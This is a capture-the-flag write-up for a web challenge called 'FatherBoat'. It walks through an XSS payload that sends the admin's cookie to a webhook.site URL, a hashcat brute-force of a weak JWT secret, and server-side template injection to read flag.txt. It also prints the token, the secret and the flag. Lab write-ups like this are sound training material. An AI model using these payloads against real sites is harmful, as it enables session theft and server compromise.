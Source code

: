 #FatherBoat (Web) \n
Difficulty: Hard \n
Solves: 0 :< \n
Link: http://139.59.124.129:51000/

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

